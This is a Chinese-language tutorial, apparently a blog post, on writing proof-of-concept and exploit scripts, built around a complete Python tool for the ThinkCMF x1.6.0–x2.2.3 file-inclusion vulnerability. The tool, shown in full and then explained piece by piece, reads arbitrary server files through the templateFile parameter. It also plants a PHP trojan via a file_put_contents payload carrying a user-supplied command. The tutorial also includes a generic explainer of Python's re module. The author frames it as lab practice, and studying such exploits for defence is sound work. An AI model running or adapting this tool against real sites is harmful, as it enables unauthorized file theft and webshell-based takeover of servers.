




# 1. 前言

通过上一篇文章的了解，应该都了解了`POC`是怎么编写的，而且`POC`和`EXP`的区别就是`POC`只能验证漏洞，简单来说就是通过判断特定的响应值来判断是否存在漏洞，而且`EXP`就需要将响应的内容给返回回来，但是整体在编写的时候基本上都差不多！关于用的模块或者参数除非是前面没了解过的，否则不再进行赘述，请查看前面的文章！

整体来说，当你编写一个`POC`或`EXP`后，后续的编写基本上都是套模板，除非遇到一些很复杂的漏洞，可能需要修改很多内容，否则一般的漏洞基本上就是修改模板。

# 2. `thinkcmf` 文件包含

这里我还是沿用之前的`POC`，在`POC`中添加`EXP`部分，我个人的理解以及在日常使用中写这些验证脚本，很多情况下普遍都是只写一个`EXP`或者`POC`就结束了，相对复杂一点的漏洞很多都是只有`POC`，由于较为复杂的漏洞EXP编写起来会很麻烦，同时不同的情况下也会导致脚本出现异常。

当然这里如果是大佬编写的脚本或代码水平不错的人写出的脚本，相对来说质量更好，并且编写`EXP`可能需要多个环境测试，例如我这里编写的脚本都是基于网站上靶机去编写的，自然可能会遇到在实际的情况中不符的情况，那么就需要不断的更改，很多情况下例如`POC`，是否能够准确的验证出来，取决于返回包的内容是否能够进行判断，至于`URL`，漏洞的`URL`都是固定的，这个没什么疑惑。

这里我直接放置这个文件包含的，整体`POC`及`EXP`，当然你分开也可以，仔细观察这些代码，其实能够看出来，基本上就是一套模板，然后根据返回的响应内容来进行二次判断。

当然我这边的代码其实并不是很周全，比如关于输入的`http`与`https`的校验等等均没有写，这个就属于处理用户输入进来的内容，这部分涉及不到很复杂的内容，自己修改吧！

```python
import argparse
import requests
import sys
import re

import requests


def poc(url, port):
    payload = "/?a=display&templateFile=README.md"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1", "Connection": "close"}
    try:
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        if r.status_code == 200 and "ThinkCMF是一款" in r.text:
            print(f"[+]{url}存在Thinkcmf文件包含漏洞")
        else:
            print(f"[-]{url}不存在Thinkcmf文件包含漏洞")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)


def exp(url, port, document):
    payload = f"/?a=display&templateFile={document}"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1", "Connection": "close"}
    try:
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        pattern = r"^(.*?)<div id=\"think_page_trace\" style=\"position: fixed;bottom:0;"
        match = re.search(pattern, r.text, re.DOTALL)
        if r.status_code == 200 and match:
            print(match.group(1).strip())
        else:
            print("没有找到匹配的内容")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)


def exp1(url, port, contain, execute):
    payload = f"/?a=fetch&templateFile=public/index&prefix=%27%27&content=%3Cphp%3Efile_put_contents(%27{contain}%27,{execute})%3C/php%3E"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1", "Connection": "close"}
    try:
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        if r.status_code == 200:
            print(f"木马访问路径：{url}:{port}/{contain}")
        else:
            print("木马疑似为写入失败！")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)


def main():
    banner = """
d888888P dP       oo          dP        a88888b. 8888ba.88ba   88888888b 
   88    88                   88       d8'   `88 88  `8b  `8b  88        
   88    88d888b. dP 88d888b. 88  .dP  88        88   88   88 a88aaaa    
   88    88'  `88 88 88'  `88 88888"   88        88   88   88  88        
   88    88    88 88 88    88 88  `8b. Y8.   .88 88   88   88  88        
   dP    dP    dP dP dP    dP dP   `YP  Y88888P' dP   dP   dP  dP        
    """
    print(banner)
    print("Vulnerability version: x1.6.0-x2.2.3")
    print("")
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
    parser.add_argument("-p", dest="port", required=False, type=int, default=8080,
                        help="The default vulnerability port is 80")
    parser.add_argument("-d", dest="document", required=False, type=str, default=None,
                        help="Include file name")
    parser.add_argument("-c", dest="contain", required=False, default=None,
                        help="Trojan name (if selected, you must select the -e parameter to add the code to execute)")
    parser.add_argument("-e", dest="execute", required=False, default=None,
                        help="Executed command (must take -c argument and URL encoded code)")

    args = parser.parse_args()

    try:
        if args.contain and args.execute:
            exp1(args.url, args.port, args.contain, args.execute)
        elif args.document:
            exp(args.url, args.port, args.document)
        elif args.url:
            poc(args.url, args.port)
        else:
            parser.parse_args(['-h'])
    except KeyboardInterrupt:
        return False


if __name__ == '__main__':
    main()

```

## 2.1. 解析第一个EXP()

这里我们解析的一个`EXP`，关于`POC`应该没什么好说的，在之前都已经说过了，同时想要看懂代码，我觉得最简单的就是去看一下复现的流程！

这个EXP主要是用于实现文件包含内容。

以下代码均是靶机，可能与现实中存在不符，同时没有进行过多的测试，主要是介绍思路，并非编写`EXP`。

复现参考：[thinkcmf 文件包含 x1.6.0-x2.2.3 已亲自复现_thinkcmf 文件包含 x1.6.0-x2.2.3 vulfocus-CSDN博客](https://blog.csdn.net/qq_42430287/article/details/135253652)

执行代码：

```python
def exp(url, port, document):
    ##漏洞url访问链接，document就是用于接收用户输入进来想要进行文件包含的内容。
    payload = f"/?a=display&templateFile={document}"
    ##拼接URL
    url1 = f"{url}:{port}{payload}"
    ##请求头
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1", "Connection": "close"}
    ##异常捕捉
    try:
        ##发送get请求
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        ##正则匹配看下面的模块介绍
        pattern = r"^(.*?)<div id=\"think_page_trace\" style=\"position: fixed;bottom:0;"
        match = re.search(pattern, r.text, re.DOTALL)
        ##判断响应是否为200，根据burp显示的响应来判断，同时正则匹配到的数据是否存在
        if r.status_code == 200 and match:
            ##返回第一个括号内匹配到的内容，也就是<div id="think_page_trace"之前的所有内容，strip()方法用于去除字符串两端的空白字符（包括换行符和空格）。
            print(match.group(1).strip())
        else:
            print("没有找到匹配的内容")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)
```

选项代码：

```python
##添加url
parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
##添加端口
parser.add_argument("-p", dest="port", required=False, type=int, default=8080,
                        help="The default vulnerability port is 80")
##添加用户需要包含的文件名
parser.add_argument("-d", dest="document", required=False, type=str, default=None,
                        help="Include file name")
```

### 2.1.1. re模块

参考链接：[python——正则表达式(re模块)详解_python re正则-CSDN博客](https://blog.csdn.net/guo_qingxia/article/details/113979135)

在Python中，`re` 模块是用于处理正则表达式的标准库。正则表达式（Regular Expression，简称 regex 或 regexp）是一种强大的文本处理工具，它使用一种特殊的语法来匹配和操作字符串。通过 `re` 模块，你可以轻松地在Python程序中执行各种复杂的文本搜索和替换操作。

以下是 `re` 模块中一些常用的函数和方法：

#### 2.1.1.1. 编译正则表达式

```
re.compile(pattern, flags=0)
```

这个函数用于将正则表达式字符串编译成一个正则表达式对象，以便后续使用。`flags` 参数用于设置正则表达式的匹配模式，如 `re.IGNORECASE`（忽略大小写）或 `re.MULTILINE`（多行模式）。

#### 2.1.1.2. 匹配操作

- `re.match(pattern, string, flags=0)`：从字符串的起始位置匹配正则表达式，如果起始位置匹配成功则返回一个匹配对象，否则返回 `None`。
- `re.search(pattern, string, flags=0)`：扫描整个字符串并返回第一个成功的匹配。如果字符串中没有匹配项，则返回 `None`。
- `re.findall(pattern, string, flags=0)`：在字符串中找到正则表达式所匹配的所有子串，并返回一个列表，如果没有找到匹配的，则返回空列表。
- `re.finditer(pattern, string, flags=0)`：和 `findall` 类似，但返回的是一个迭代器，其中每个元素都是一个匹配对象。

#### 2.1.1.3. 替换操作

```
re.sub(pattern, repl, string, count=0, flags=0)
```

这个函数用于在字符串中查找匹配正则表达式的子串，并将其替换为指定的字符串。`count` 参数用于指定最多替换次数，默认为0，表示替换所有匹配项。

#### 2.1.1.4. 分割操作

```
re.split(pattern, string, maxsplit=0, flags=0)
```

这个函数按照能够匹配的子串将字符串分割后返回列表。`maxsplit` 用于指定最大分割次数，默认为0，表示不限制分割次数。

#### 2.1.1.5. 匹配对象的方法

匹配对象（由 `match()` 或 `search()` 返回）有一些方法可以用于获取匹配信息：

- `group(num=0)`：返回整个匹配对象，或者编号为 num 的子组。
- `groups()`：返回一个包含所有匹配子组的元组（如果没有子组，则返回空元组）。
- `start([group])` 和 `end([group])`：返回匹配或子组在字符串中的开始和结束位置。
- `span([group])`：返回一个包含匹配或子组在字符串中的开始和结束位置的元组。

这只是 `re` 模块功能的一部分。正则表达式本身是一门深奥的学问，涉及许多复杂的语法和概念。但通过 `re` 模块，你可以轻松地在Python中利用正则表达式的强大功能来处理文本数据。

### 2.1.2. 分析代码中re

关于这里不懂的，可以直接将代码发给`AI`分析，同时如果`re`模块用的不熟，其实也可以将返回响应值，发给`AI`，让`AI`帮忙写`re`正则，然后自己再去修改。

```python
pattern = r"^(.*?)<div id=\"think_page_trace\" style=\"position: fixed;bottom:0;"
        match = re.search(pattern, r.text, re.DOTALL)
        ##判断响应是否为200，根据burp显示的响应来判断，同时正则匹配到的数据是否存在
        if r.status_code == 200 and match:
            ##返回第一个括号内匹配到的内容，也就是<div id="think_page_trace"之前的所有内容，strip()方法用于去除字符串两端的空白字符（包括换行符和空格）。
            print(match.group(1).strip())
```

从上述的代码中我们结合下图来进行分析，我们需要获取到的是红框框选起来的内容，如果我们直接将`r.text`输出的话，那么我们的内容会是很多的，包含下面的`div`代码都会输出出来。而我们需要的只有红框中的内容，那么就可以使用`re`，去匹配这些内容。

我这里观察到，不管是执行`config.yaml`文件还是`Nginx.conf`文件，代码响应包下面都有`div`代码，那么我们就可以使用`re`去查找。



```python
pattern = r"^(.*?)<div id=\"think_page_trace\" style=\"position: fixed;bottom:0;"
```

而这里的代码意思就是从`r`中寻找到`<div id=\"think_page_trace\" style=\"position: fixed;bottom:0;`这行内容，这里的r就是，我们发送完`get`请求返回的内容，默认输出的时候是执行`r.text`,而这里我们将r交个`re`处理，然后这行结尾之前的内容保存到`pattern`中。

```python
match = re.search(pattern, r.text, re.DOTALL)
```

然后使用`re`库的`search`方法在`r.text`（请求的响应文本）中搜索与`pattern`匹配的内容。`re.DOTALL`标志使得`.`能够匹配任何字符，包括换行符。

```python
 if r.status_code == 200 and match:
    print(match.group(1).strip())
```

检查`HTTP`请求是否成功返回（状态码为200），检查是否找到了与正则表达式匹配的内容，当两个条件满足后，这行代码会打印出匹配到的第一个分组（即正则表达式中的`(.*?)`部分）的内容，并使用`strip()`方法去除首尾的空白字符。

### 2.1.3. 执行效果

这里忽略字符画的`CVE`编号，主要是我模板写错了，我也没修改了。



## 2.2. 解析第二个EXP1()

第二个EXP主要是用于实现木马上传作用，整体来说，我觉得`EXP`和`POC`没有如何的区别，本质上也就是执行的`payload`不同，所以再编写上，本质无任何区别。

执行代码：

```python
##这里contain是木马名称，execute是代码命令（需要进行url编码）
def exp1(url, port, contain, execute):
    ##漏洞URL，拼接命令
    payload = f"/?a=fetch&templateFile=public/index&prefix=%27%27&content=%3Cphp%3Efile_put_contents(%27{contain}%27,{execute})%3C/php%3E"
    ##拼接url
    url1 = f"{url}:{port}{payload}"
    ##请求头
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1", "Connection": "close"}
    ##异常捕捉
    try:
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        ##判断上传成功与否
        if r.status_code == 200:
            ##返回木马路径
            print(f"木马访问路径：{url}:{port}/{contain}")
        else:
            print("木马疑似为写入失败！")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)
```

选项代码：

这里选项代码，需要注意 `-c`与`-e`必须一起使用，后面的提示我也写了，如果不一起使用，可能就会执行其他的语句或者直接报错。

```python
##添加url
parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
##添加端口
parser.add_argument("-p", dest="port", required=False, type=int, default=8080,
                        help="The default vulnerability port is 80")
##添加用户需要包含的文件名
parser.add_argument("-d", dest="document", required=False, type=str, default=None,
                        help="Include file name")
##添加木马名称
parser.add_argument("-c", dest="contain", required=False, default=None,
                        help="Trojan name (if selected, you must select the -e parameter to add the code to execute)")

##添加木马内的代码
parser.add_argument("-e", dest="execute", required=False, default=None,
                        help="Executed command (must take -c argument and URL encoded code)")
```

这里会发现`-c`是木马的文件名.后缀，`-e`是文件中的命令，这里还需要将命令进行`URL`编码，这里不在代码中进行编码，是由于如果在`cmd`中直接输入命令会出现无法输入的情况，当然这个是可以解决的：

首先输入的时候加上双引号，在代码中对输入进行的内容进行替换只取双引号直接的内容，如何进行`url`编码，传参上去执行，当然我不想写就这样吧！感兴趣的自己去修改一下代码，前往别脑子会了，手不会，多练习，不是看一遍后，就觉得编写代码这么简单，结果下次还不会。



### 2.2.1. 执行后的效果

这里忽略`URL`地址，由于是开的在线靶场，有时间限制，一边写一边测试，就会过期，如何就得重新开。



## 2.3. 用户选项执行判断

这里我就简单说一下吧，下面的代码主要是判断用户输入的参数是那些，根据输入的参数来判断执行的是`POC`还是`EXP`，或者说能听懂的，就是用户是只想测试一下有没有漏洞，还是想要读取一下文件内容，亦或者想要上传个文件。

```python
    try:
        if args.contain and args.execute:
            exp1(args.url, args.port, args.contain, args.execute)
        elif args.document:
            exp(args.url, args.port, args.document)
        elif args.url:
            poc(args.url, args.port)
        else:
            parser.parse_args(['-h'])
    except KeyboardInterrupt:
        return False
```

而自上而下的内容指定好，例如，如果你将判断用户 `elif args.url:`放在第一行，那么肯定有问题的，因为我们`url`是强制性必须输入，那么你后续不管输入多少个参数，都会执行第一行，因为匹配到`url`了。

所以你看我匹配的第一行是用户有没有输入文件名同时输入命令代码，如果输入了那么和执行文件上传的代码，如果输入了文件名，那么就执行文件包含的代码，如果只输入的`URL`与`port`，那么就进行一个普通的`poc`验证。
